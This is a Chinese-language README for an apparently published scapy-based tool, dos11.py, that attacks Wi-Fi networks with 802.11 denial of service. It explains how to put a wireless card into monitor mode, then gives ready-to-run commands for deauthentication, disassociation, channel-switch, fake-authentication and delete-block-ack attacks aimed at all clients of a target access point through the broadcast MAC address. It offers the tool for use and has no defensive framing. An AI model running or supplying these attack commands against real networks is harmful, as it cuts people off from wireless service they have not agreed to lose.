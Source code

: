 # scapy 802.11 dos攻击

## 前提条件
#### 你需要有一块无线网卡并可以置于monitor模式并切换到相应信道,假设interface是wlan0,ap位于信道1：
    iw dev wlan0 set type monitor (如果报错 先down掉: ip link set wlan0 down)
    
    iw dev wlan0 set channel 1 (如果之前down了网卡需要up起来：ip link set wlan up (如果rfkill报错 执行:rfkill unblock 0 (0是rfkill list 对应物理网卡的编号)))
   
#### 安装sacpy     
    pip3 install scapy
    
    
###  目前实现：
    deauthentication 解认证攻击 可以广播，不能攻击开启了管理帧保护的ap
    
    disassociation   解连接 可以广播，不能攻击开启了管理帧保护的ap
    
    csa(channel switch announcement) 信道切换攻击
    
    fake_auth 假认证攻击 
    
    delba(delete block ack) ???-???-??? ミク表示这个攻击不明觉厉哦~~
    

## example
#### deauthentication attack
    ./dos11.py deauth --client-mac  FF:FF:FF:FF:FF:FF --ap-ssid wifi-ssid --ap-bssid 01:02:03:04:05:06 -i wlan0
#### disassociation attack
    ./dos11.py disas  --client-mac  FF:FF:FF:FF:FF:FF --ap-ssid wifi-ssid --ap-bssid 01:02:03:04:05:06 -i wlan0
#### channel switch announcement
    ./dos11.py csa --client-mac  FF:FF:FF:FF:FF:FF --ap-ssid wifi-ssid --ap-bssid 01:02:03:04:05:06 -i wlan0 --switch-channel 1
#### fake auth 
    ./dos11.py fake_auth --client-mac  FF:FF:FF:FF:FF:FF --ap-ssid wifi-ssid --ap-bssid 01:02:03:04:05:06 -i wlan0 --auth-algorithm 1 --interval 0
#### delete block ack (maybe not work)
    ./dos11.py delba --client-mac   FF:FF:FF:FF:FF:FF --ap-ssid wifi-ssid --ap-bssid 01:02:03:04:05:06 -i wlan0


    

    
    

    
 